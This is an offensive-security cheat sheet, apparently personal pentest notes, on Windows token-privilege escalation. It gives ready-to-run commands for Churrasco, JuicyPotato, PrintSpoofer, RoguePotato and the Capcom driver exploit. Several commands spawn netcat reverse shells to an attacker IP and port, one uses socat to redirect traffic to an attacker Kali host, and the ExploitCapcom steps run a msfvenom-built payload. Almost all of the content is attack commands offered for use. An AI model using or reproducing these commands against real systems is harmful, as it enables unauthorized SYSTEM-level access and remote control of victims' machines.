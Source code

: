# windows token exploits

## Churrasco

```bash
REQUIREMENT: SEImpersonalPrivilege
| Windows XP/VISTA/2003/2008, Win Server 2003

# usage
> churrasco.exe -d "nc.exe -e cmd.exe IP PORT"
```

## HotPotato

```bash
Windows 7,8,10, Server 2008, Server 2012: Try Hot Potato
```

## JuicyPotato.exe \[/opt/juicy-potato-exe]

```bash
REQUIREMENT:
| SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateGlobalPrivilege, smb-service
| machine is < Windows 10 1809 < Windows Server 2019
CLSID: http://ohpe.it/juicy-potato/CLSID/ | {03ca98d6-ff5d-49b8-abc6-03dd84127020}

# /opt/juicy-potato/CLSID/GetCLSID.ps1
> JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c PATH\nc.exe -e cmd.exe IP PORT" -t * -c CLSID
> Juicy.Potato.x86.exe -l 1337 -p "c:\users\public\kashz.exe" -t * -c CLSID

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
```

## [PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) \[/opt/printspoofer]

```bash
REQUIREMENT
| SeImpersonatePrivilege 
| Win10, WinServer 2016, WinServer 2019

> PrintSpoofer.exe -i -c cmd.exe
> PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
```

## [RoguePotato ](https://github.com/antonioCoco/RoguePotato)\[/opt/rogue-potato-exe]

```bash
REQUIREMENT:
| SeImpersonatePrivilege
| machine is >= Windows 10 1809 & Windows Server 2019

# socat redirector for OXID resolving, must use 135
$ socat tcp-listen:135,reuseaddr,fork tcp:KALI_IP:9999
> RoguePotato.exe -r KALI_IP -e "PATH\nc.exe IP PORT -e cmd.exe" -l 9999
```

## [SeLoadDriverPrivilege](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#capcom-sys-driver-exploit)

```bash
# obtain user SID
 | Get-ADUser -Identity 'svc-print' | select SID
 | (New-Object System.Security.Principal.NTAccount("svc-print")).Translate([System.Security.Principal.SecurityIdentifier]).value

# vs-code execution:
https://github.com/tandasat/ExploitCapcom/
# file ExploitCapcom.cpp
# line 410
TCHAR CommandLine[] = TEXT("C:\\Users\\Public\\kashz.exe");
# build solution for release
# generate kashz.exe using msf

# run
.\ExploitCapcom.exe
```
